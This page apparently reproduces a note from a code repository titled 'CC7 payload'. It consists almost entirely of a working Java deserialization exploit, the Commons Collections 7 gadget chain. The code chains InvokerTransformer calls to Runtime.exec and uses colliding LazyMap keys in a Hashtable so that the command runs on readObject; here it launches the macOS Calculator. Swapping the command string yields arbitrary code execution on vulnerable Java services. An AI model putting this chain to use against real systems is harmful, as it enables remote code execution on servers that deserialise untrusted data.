**CC7 payload** 

```java
public class CC7 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException,
            InvocationTargetException, InstantiationException, IOException, NoSuchFieldException {
        Transformer[] realPoc  = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")}),
                new ConstantTransformer(1)};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer("random")});

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
        Map lazyMap1 = LazyMap.decorate(innerMap1, fakeChain);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.decorate(innerMap2, fakeChain);
        lazyMap2.put("zZ", 1);

        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);


        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeChain, realPoc);

        lazyMap2.remove("yy");

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(hashtable);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```
